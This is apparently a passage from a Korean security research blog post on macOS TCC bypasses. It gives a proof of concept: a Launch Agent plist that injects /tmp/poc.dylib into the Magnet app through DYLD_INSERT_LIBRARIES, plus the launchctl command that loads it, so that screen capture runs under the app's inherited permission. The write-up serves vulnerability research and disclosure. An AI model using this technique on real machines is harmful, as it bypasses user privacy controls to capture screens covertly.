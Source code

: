 
<br>


다음은 Launch Agent를 이용한 샌드박스 우회 방법에 대해 설명한다.

1. `~/Library/LauncheAgents`에 Launch Agent 작성

{% raw %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
       <key>Label</key>
        <string>com.poc.launcher</string>
        <key>RunAtLoad</key>
        <true/>
        <key>EnvironmentVariables</key>
        <dict>
          <key>DYLD_INSERT_LIBRARIES</key>
          <string>/tmp/poc.dylib</string>
        </dict>
        <key>ProgramArguments</key>
        <array>
  <string>/Applications/Magnet.app/Contents/MacOS/Magnet</string>
        </array>
</dict>
</plist>
```
{% endraw %}


![8](/assets/img/2024-04-15-Methodology-for-discovering-TCC-Bypass-vulnerabilities-in-3rd-party-Applications.md/8.png)

1. Launch Agent 등록 및 실행

{% raw %}
```bash
$ launchctl load com.poc.launcher.plist
```
{% endraw %}

1. 결과

터미널이 아닌 Magnet의 TCC 권한을 상속 받아 스크린 캡처를 진행한 것을 확인할 수 있다.
